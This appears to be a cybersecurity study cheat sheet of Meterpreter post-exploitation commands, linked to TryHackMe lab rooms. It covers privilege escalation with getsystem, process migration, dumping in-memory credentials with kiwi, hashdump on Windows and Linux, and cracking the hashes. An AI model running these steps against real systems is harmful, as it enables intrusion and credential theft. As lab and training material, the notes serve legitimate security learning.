 # Meterpreter exploitation commands

<div class="row row-cols-lg-2"><div>

* ➡️ See if you are root and your privileges

```shell!
meterpreter> getuid
Windows: NT AUTHORITY\SYSTEM
```

* ➡️ Learn more about the system. Here with Windows, you could look for CVEs given the build version. The architecture can help too, as some scripts are less useful on some architectures.

```shell!
meterpreter> sysinfo
Computer        : XXX-PC
OS              : Windows X (... Build xxx...).
Architecture    : x64
```

* ➡️ Start a shell: `sh/bash` on Linux, `cmd` on Windows

```shell!
meterpreter> shell # start a shell
C:\WINDOWS\system32> # Windows cmd
```
</div><div>

* ➡️ Ask for suggested exploits. ⚠️ Before running them, migrate to a stable process with the highest privilege you can have.

```shell!
meterpreter> run post/multi/recon/local_exploit_suggester
```

* ➡️ Load a local file `commands.txt` with meterpreter commands

```shell!
meterpreter> resource commands.txt
```

* ➡️ 📝 Migrate to another process 📝. This is something as some services/stuff need us to be "in" a process that has the same architecture, and the same permissions, that our target. **Usually**, any process run by "NT AUTHORITY\SYSTEM"/root should be okay, although you may have to try a few times.

```shell!
meterpreter> ps # list process
meterpreter> migrate process_pid # move to another process
meterpreter> migrate -N process_name # same
meterpreter> # most used ones
meterpreter> migrate -N spoolsv.exe # can restart so good
meterpreter> migrate -N explorer.exe # screenshots...
```
</div></div>

<hr class="sep-both">

## Windows commands

[![blue](../../../../../_badges/thm-p/blue.svg)](https://tryhackme.com/room/blue)
[![ice](../../../../../_badges/thm-p/ice.svg)](https://tryhackme.com/room/ice)
[![blaster](../../../../../_badges/thm-p/blaster.svg)](https://tryhackme.com/room/blaster)
[![steelmountain](../../../../../_badges/thmp-p/steelmountain.svg)](https://tryhackme.com/room/steelmountain)

<div class="row row-cols-md-2 mt-3"><div>

* ➡️ See your privileges

```shell!
meterpreter> getprivs
```

* ➡️ Try automatic privilege escalation 😎 ([more information](https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/)).

```shell!
meterpreter> getsystem
```

* ➡️ Load PowerShell

```shell!
meterpreter> load powershell
meterpreter> powershell_shell
PS>
```
</div><div>

* ➡️ Dump in-memory passwords

```shell!
meterpreter> load kiwi
meterpreter> migrate some_process_nt_system_compatible
meterpreter> creds_all # retrieve all credentials
meterpreter> # you can also create a backdoor...
```

* ➡ | ️`root`. Dump every credential stored by the system. Passwords must be [cracked/dehashed](/cybersecurity/cryptography/algorithms/hashing/index.md#hash-cracking). You can use a [hash to login](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/).

```ps
meterpreter> hashdump
# You may try to crack them using john within the msfconsole
msf6 exploit('module_used')> use auxiliary/analyze/crack_windows
msf6 exploit('module_used')> set CUSTOM_WORDLIST /usr/share/wordlists/rockyou.txt
msf6 exploit('module_used')> run
```
</div></div>

<hr class="sep-both">

## Linux commands

<div class="row row-cols-md-2 mt-3"><div>

* ➡️ Start a shell

```ps
meterpreter> shell
$
```
</div><div>

* ➡ | ️`root`. Dump every credential stored by the system. Passwords must be [cracked/dehashed](/cybersecurity/cryptography/algorithms/hashing/index.md#hash-cracking). You can use a [hash to login](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/).

```ps
# basically, all that to do: "cat /etc/shadow"
meterpreter> bg
msf6 exploit('module_used')> use post/linux/gather/hashdump
msf6 exploit('module_used')> set SESSION 1
msf6 exploit('module_used')> run
```
</div></div>